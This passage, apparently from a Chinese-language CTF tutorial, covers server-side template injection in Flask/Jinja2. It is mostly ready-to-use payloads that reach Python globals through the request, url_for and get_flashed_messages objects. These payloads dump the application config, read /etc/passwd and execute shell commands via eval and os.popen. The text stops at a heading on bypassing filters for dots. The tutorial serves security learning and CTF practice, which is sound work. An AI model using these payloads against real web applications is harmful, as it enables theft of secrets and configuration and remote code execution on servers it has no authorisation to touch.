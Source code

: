 
jinja2 中存在对象`request`

```
Python 3.7.8
>>> from flask import Flask,request,render_template_string
>>> request.__class__.__mro__[1]
<class 'object'>
```

查询一些配置信息

```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config}}
```

构造 ssti 的 payload

```
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}
{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}
```

*   `url_for`
    

查询配置信息

```
{{url_for.__globals__['current_app'].config}}
```

构造 ssti 的 payload

```
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

*   `get_flashed_messages`
    

查询配置信息

```
{{get_flashed_messages.__globals__['current_app'].config}}
```

构造 ssti 的 payload

```
{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
```

绕过黑名单
-----

CTF 中一般考的就是怎么绕过 SSTI，我们学会如何去构造 payload 之后，还要学习如何去绕过一些过滤，然后下面由于环境的不同，payload 中类的位置也是就那个数字可能会和文章中不一样，需要自己动手测一下

### 过滤了点
